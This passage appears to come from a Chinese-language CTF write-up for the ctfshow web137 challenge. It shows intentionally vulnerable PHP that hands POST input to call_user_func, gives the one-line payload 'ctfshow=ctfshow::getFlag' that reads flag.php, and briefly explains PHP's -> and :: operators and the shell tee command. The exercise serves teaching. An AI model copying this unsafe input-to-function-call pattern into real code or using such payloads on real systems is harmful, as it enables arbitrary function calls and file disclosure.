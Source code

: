 

> ```shell
> tee a.txt b.txt，将a.txt复制到b.txt
> ls | tee b.txt,将ls命令的执行结果写入b.txt
> ```

![image-20221005165456193](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210051654257.png?x-oss-process=hzy)

# web137

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-10-13 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-16 22:27:49

*/

error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}



call_user_func($_POST['ctfshow']);
```

直接调用getflag这个类即可

```
ctfshow=ctfshow::getFlag
```

![image-20221005165913371](https://imagesssssssssss.oss-cn-beijing.aliyuncs.com/img/202210051659436.png?x-oss-process=hzy)

> php中 ->与:: 调用类中的成员的区别
> ->用于动态语境处理某个类的某个实例
> ::可以调用一个静态的、不依赖于其他初始化的类方法.
>
> 双冒号可以不用实例化类就可以直接调用类中的方法
